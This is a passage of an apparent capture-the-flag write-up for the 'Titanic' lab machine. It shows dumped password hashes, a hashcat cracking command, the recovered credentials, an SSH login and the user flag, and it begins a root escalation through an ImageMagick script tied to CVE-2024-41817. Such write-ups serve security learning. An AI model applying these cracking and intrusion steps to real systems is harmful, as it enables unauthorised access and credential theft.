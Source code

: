 ```python
```

Running the script gives us hashes for various users:

```bash
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
...
```

We use **hashcat** to crack them:

```bash
hashcat -m 10900 hash.txt rockyou.txt -o cracked.txt
```

Eventually, we discover valid credentials. For example:

```
developer:sha256:50000:... = 25282528
```

---

## SSH Access and User Flag

Armed with these credentials, we SSH into the target:

```bash
ssh developer@10.10.11.55
```

After logging in, we retrieve the user flag:

```bash
developer@titanic:~$ cat user.txt
8e14e18a329c3b041af6c8688bdaafa3
```

And that concludes the user-level compromise for the **Titanic** machine.

## Root Flag and CVE-2024-41817

After enumerating the machine, we find the following interesting file:

```bash
-rwxr-xr-x 1 root root  167 Feb  3 17:11 identify_images.sh
```

```bash
developer@titanic:/opt/scripts$ cat identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```
